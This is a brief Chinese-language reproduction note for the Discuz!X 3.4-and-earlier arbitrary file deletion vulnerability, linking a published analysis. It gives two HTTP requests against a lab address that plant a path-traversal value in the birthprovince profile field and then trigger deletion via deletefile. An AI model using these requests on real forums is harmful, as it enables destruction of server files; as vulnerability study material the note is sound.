 
影响范围: <= !3.4

验证存在

[Discuz!X ≤3.4 任意文件删除漏洞分析](https://paper.seebug.org/411/)
```
http://192.168.48.136/DZ3_2/home.php?mod=spacecp&ac=profile&op=base
POST birthprovince=../../../test.txt&profilesubmit=1&formhash=7ba86638
```
![](images/6.jpg)
![](images/7.jpg)

```
http://192.168.48.136/DZ3_2/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa
POST birthprovince=../../../test.txt&profilesubmit=1&formhash=7ba86638
其中formhash为用户hash
``` 
![](images/8.jpg)